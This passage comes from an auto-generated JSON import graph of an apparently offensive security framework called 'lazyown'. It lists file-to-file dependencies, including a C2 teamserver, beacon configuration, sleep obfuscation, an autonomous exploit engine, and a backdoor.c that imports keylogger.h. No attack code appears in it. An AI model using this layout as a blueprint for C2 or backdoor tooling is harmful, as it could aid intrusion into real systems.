"lazygui/panels/registry.py", "target": "lazygui/config/constants.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/registry.py", "target": "lazygui/panels/base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/registry.py", "target": "lazygui/panels/campaign_panel.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/registry.py", "target": "lazygui/panels/credentials_panel.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/registry.py", "target": "lazygui/panels/cve_panel.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/registry.py", "target": "lazygui/panels/event_log_panel.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/registry.py", "target": "lazygui/panels/graph_panel.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/registry.py", "target": "lazygui/panels/history_panel.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/registry.py", "target": "lazygui/panels/killchain_panel.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/registry.py", "target": "lazygui/panels/listeners_panel.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/registry.py", "target": "lazygui/panels/marketplace_panel.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/registry.py", "target": "lazygui/panels/sessions_panel.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/registry.py", "target": "lazygui/panels/terminal_panel.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/registry.py", "target": "lazygui/services/backend.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/registry.py", "target": "lazygui/services/event_log.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/sessions_panel.py", "target": "lazygui/config/constants.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/sessions_panel.py", "target": "lazygui/panels/base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/sessions_panel.py", "target": "lazygui/services/backend.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/sessions_panel.py", "target": "lazygui/services/models.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/sessions_panel.py", "target": "lazygui/widgets/filter_bar.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/terminal_panel.py", "target": "lazygui/config/constants.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/terminal_panel.py", "target": "lazygui/panels/base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/terminal_panel.py", "target": "lazygui/services/backend.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/panels/terminal_panel.py", "target": "lazygui/widgets/terminal_view.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/services/__init__.py", "target": "lazygui/services/backend.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/services/__init__.py", "target": "lazygui/services/event_log.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/services/__init__.py", "target": "lazygui/services/factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/services/__init__.py", "target": "lazygui/services/local_backend.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/services/__init__.py", "target": "lazygui/services/models.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/services/__init__.py", "target": "lazygui/services/teamserver_backend.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/services/backend.py", "target": "cli/commands/enum.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/services/backend.py", "target": "lazygui/services/models.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/services/event_log.py", "target": "lazygui/config/constants.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/services/event_log.py", "target": "lazygui/services/models.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/services/factory.py", "target": "lazygui/config/constants.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/services/factory.py", "target": "lazygui/config/paths.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/services/factory.py", "target": "lazygui/services/backend.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/services/factory.py", "target": "lazygui/services/local_backend.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/services/factory.py", "target": "lazygui/services/models.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/services/factory.py", "target": "lazygui/services/teamserver_backend.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/services/local_backend.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/services/local_backend.py", "target": "lazygui/config/constants.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/services/local_backend.py", "target": "lazygui/config/paths.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/services/local_backend.py", "target": "lazygui/services/backend.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/services/local_backend.py", "target": "lazygui/services/models.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/services/models.py", "target": "cli/commands/enum.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/services/teamserver_backend.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/services/teamserver_backend.py", "target": "lazygui/config/constants.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/services/teamserver_backend.py", "target": "lazygui/services/backend.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/services/teamserver_backend.py", "target": "lazygui/services/models.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/services/teamserver_backend.py", "target": "lazyc2/blueprints/auth.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/theme/__init__.py", "target": "lazygui/theme/manager.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/theme/__init__.py", "target": "lazygui/theme/qss_builder.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/theme/__init__.py", "target": "lazygui/theme/tokens.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/theme/manager.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/theme/manager.py", "target": "lazygui/config/constants.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/theme/manager.py", "target": "lazygui/config/settings.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/theme/manager.py", "target": "lazygui/theme/palettes/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/theme/manager.py", "target": "lazygui/theme/qss_builder.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/theme/manager.py", "target": "lazygui/theme/tokens.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/theme/palettes/__init__.py", "target": "lazygui/theme/tokens.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/theme/palettes/catppuccin_mocha.py", "target": "lazygui/theme/tokens.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/theme/palettes/cobalt_clone.py", "target": "lazygui/theme/tokens.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/theme/palettes/gruvbox_dark.py", "target": "lazygui/theme/tokens.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/theme/palettes/solarized_light.py", "target": "lazygui/theme/tokens.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/theme/palettes/tactical_green.py", "target": "lazygui/theme/tokens.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/theme/palettes/tokyo_night.py", "target": "lazygui/theme/tokens.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/theme/qss_builder.py", "target": "lazygui/config/constants.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/theme/qss_builder.py", "target": "lazygui/theme/tokens.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/widgets/__init__.py", "target": "lazygui/widgets/command_palette_list.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/widgets/__init__.py", "target": "lazygui/widgets/event_log_view.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/widgets/__init__.py", "target": "lazygui/widgets/filter_bar.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/widgets/__init__.py", "target": "lazygui/widgets/graph_view.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/widgets/__init__.py", "target": "lazygui/widgets/status_badge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/widgets/__init__.py", "target": "lazygui/widgets/terminal_view.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/widgets/beacon_command_modal.py", "target": "lazygui/services/backend.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/widgets/beacon_command_modal.py", "target": "lazygui/services/models.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/widgets/command_palette_list.py", "target": "lazygui/config/constants.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/widgets/event_log_view.py", "target": "lazygui/config/constants.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/widgets/event_log_view.py", "target": "lazygui/services/event_log.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/widgets/event_log_view.py", "target": "lazygui/services/models.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/widgets/filter_bar.py", "target": "lazygui/config/constants.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/widgets/graph_view.py", "target": "lazygui/config/constants.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/widgets/graph_view.py", "target": "lazygui/services/models.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/widgets/status_badge.py", "target": "lazygui/services/backend.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/widgets/terminal_view.py", "target": "lazygui/config/constants.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/windows/__init__.py", "target": "lazygui/windows/command_palette_window.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/windows/__init__.py", "target": "lazygui/windows/connect_dialog.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/windows/__init__.py", "target": "lazygui/windows/main_window.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/windows/command_palette_window.py", "target": "lazygui/config/constants.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/windows/command_palette_window.py", "target": "lazygui/widgets/command_palette_list.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/windows/connect_dialog.py", "target": "lazygui/config/c2_credentials.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/windows/connect_dialog.py", "target": "lazygui/config/constants.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/windows/connect_dialog.py", "target": "lazygui/config/paths.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/windows/connect_dialog.py", "target": "lazygui/config/settings.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/windows/connect_dialog.py", "target": "lazygui/services/models.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/windows/connect_dialog.py", "target": "lazygui/services/teamserver_backend.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/windows/main_window.py", "target": "lazygui/config/constants.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/windows/main_window.py", "target": "lazygui/config/settings.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/windows/main_window.py", "target": "lazygui/panels/registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/windows/main_window.py", "target": "lazygui/services/backend.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/windows/main_window.py", "target": "lazygui/services/event_log.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/windows/main_window.py", "target": "lazygui/services/models.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/windows/main_window.py", "target": "lazygui/theme/manager.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/windows/main_window.py", "target": "lazygui/theme/tokens.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/windows/main_window.py", "target": "lazygui/widgets/beacon_command_modal.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/windows/main_window.py", "target": "lazygui/widgets/command_palette_list.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/windows/main_window.py", "target": "lazygui/widgets/status_badge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazygui/windows/main_window.py", "target": "lazygui/windows/command_palette_window.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "cli/aliases.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "cli/aliases.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "cli/aliases.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "cli/auto_crypto.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "cli/auto_crypto.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "cli/auto_crypto.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "cli/autosuggest.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "cli/autosuggest.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "cli/chain_mode.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "cli/chain_mode.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "cli/chain_mode.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "cli/chain_mode.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "cli/fuzzy_picker.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "cli/graph_advisor.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "cli/ops_commands.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "cli/ops_commands.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "cli/palette.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "cli/palette.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "cli/protips.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "cli/reactive_hints.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "cli/reactive_hints.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "cli/registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "cli/scope_guard.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "cli/scope_guard.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "cli/scope_guard.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "cli/status_bar.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "cli/tips_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "cli/tips_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "cli/tips_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "cli/tips_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "cli/toast_bus.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "cli/toast_bus.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "cli/toast_bus.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "core/defaults.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "core/defaults.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "modules/event_bus.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "modules/event_bus.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "modules/event_bus.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "modules/event_bus.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "modules/logging_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "modules/logging_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "modules/payload_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "cli/command_chain.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "modules/command_executor.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "cli/exploration.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "cli/scope_guard.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "cli/command_chain.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "cli/headless.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "modules/llm_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "skills/unified_orchestrator.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "modules/event_consumers.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "cli/cli_enhancements.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "core/autonomous.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "modules/metrics.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "cli/cli_enhancements.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "modules/cli_auth.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "core/credential_vault.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "modules/cli_auth.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "modules/session_cleanup.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "cli/lazynmap_post.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "modules/event_bus.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "modules/state_manager.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "modules/unified_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "cli/cli_enhancements.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "cli/splash.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "modules/cli_auth.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "modules/cli_auth.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "lazyown.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/agent_runner.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/agent_runner.py", "target": "modules/logging_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/agent_runner.py", "target": "modules/ai_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/agent_runner.py", "target": "modules/llm_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/agent_runner.py", "target": "modules/logging_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/agent_runner.py", "target": "modules/llm_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/ai_exploit_chain.py", "target": "modules/autonomous_exploit_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/ai_fallback.py", "target": "modules/llm_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/ai_fallback.py", "target": "modules/llm_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/ai_fallback.py", "target": "modules/llm_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/ai_fallback.py", "target": "modules/llm_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/ai_fallback.py", "target": "modules/toposwarm_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/ai_model.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/ai_model.py", "target": "modules/llm_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/ai_model.py", "target": "modules/llm_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/ai_model.py", "target": "modules/llm_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/apt_playbooks.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/atomic_enricher.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/attack_surface3d.py", "target": "modules/intel_fusion.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/attack_surface3d.py", "target": "cli/surface_graph.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/attack_surface3d.py", "target": "modules/intel_fusion.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/attack_surface3d.py", "target": "modules/estorides_fusion.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/attack_surface3d.py", "target": "modules/estorides_fusion.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/attack_surface3d.py", "target": "modules/estorides_fusion.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/attack_surface3d.py", "target": "modules/finding_lifecycle.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/auto_purple.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/auto_purple.py", "target": "modules/detection_oracle.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/auto_purple.py", "target": "modules/detection_oracle.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/auto_purple.py", "target": "core/process.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/auto_purple.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/auto_registry.py", "target": "modules/lazy_cli_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/auto_registry.py", "target": "modules/orchestrator_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/auto_registry.py", "target": "modules/lazy_cli_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/auto_registry.py", "target": "modules/lazy_cli_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/auto_registry.py", "target": "modules/lazy_cli_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/auto_registry.py", "target": "modules/orchestrator_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/auto_registry.py", "target": "modules/lazy_installer.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/auto_registry.py", "target": "modules/lazy_orchestrator_feedback.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/auto_registry.py", "target": "modules/command_executor.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/autonomous_exploit_engine.py", "target": "modules/db.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/autonomous_exploit_engine.py", "target": "core/defaults.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/autonomous_exploit_engine.py", "target": "modules/auto_pivot.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/autonomous_exploit_engine.py", "target": "core/safe_exec.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/autonomous_exploit_engine.py", "target": "core/safe_exec.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/autonomous_exploit_engine.py", "target": "core/safe_exec.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/autonomous_exploit_engine.py", "target": "core/safe_exec.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/autonomous_exploit_engine.py", "target": "core/safe_exec.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/backdoor/backdoor.c", "target": "modules/backdoor/keylogger.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/beacon_config_builder.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/beacon_config_builder.py", "target": "modules/c2_profile_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/beacon_config_builder.py", "target": "modules/sleep_obfuscation.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/beacon_config_builder.py", "target": "modules/socks_proxy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/beacon_config_builder.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/beacon_history.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "modules/bof_registry.py", "target": 